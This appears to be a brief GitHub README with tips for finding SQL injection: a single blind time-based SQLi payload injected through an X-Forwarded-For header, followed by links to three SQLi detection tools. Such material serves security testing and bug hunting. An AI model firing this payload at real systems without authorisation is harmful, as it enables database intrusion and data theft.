 This repo has some tips for finding sql injection
> 1. Blind Sql-injection
```
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
```
> 2.Sqli detector
```
https://github.com/eslam3kl/SQLiDetector
https://github.com/JohnTroony/Blisqy
https://github.com/zeronine9/Blind_SPOT
```
